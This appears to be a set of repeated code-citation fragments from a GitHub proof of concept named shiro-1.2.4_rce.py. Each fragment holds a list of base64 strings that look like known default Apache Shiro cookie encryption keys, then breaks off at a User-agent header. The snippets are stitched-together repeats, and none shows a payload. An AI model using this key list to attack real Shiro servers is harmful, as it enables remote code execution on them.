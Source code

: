 
## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User-agent':
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User-agent': '
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User-agent': 'Mozilla
```


## License: 未知
https://github.com/loongst/projectcode/blob/e248e930085bff8b9b15abc6f987bb3581da4c81/pocs/other/exphub-master/shiro/shiro-1.2.4_rce.py

```
[
            "kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
            "4AvVhmFLUs0KTA3Kprsdag==", "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==",
            "bWljcm9zAAAAAAAAAAAAAA==", "wGiHplamyXlVB11UXWol8g==", "Z3VucwAAAAAAAAAAAAAAAA=="
        ]
        header = {
            'User-agent': 'Mozilla/
```
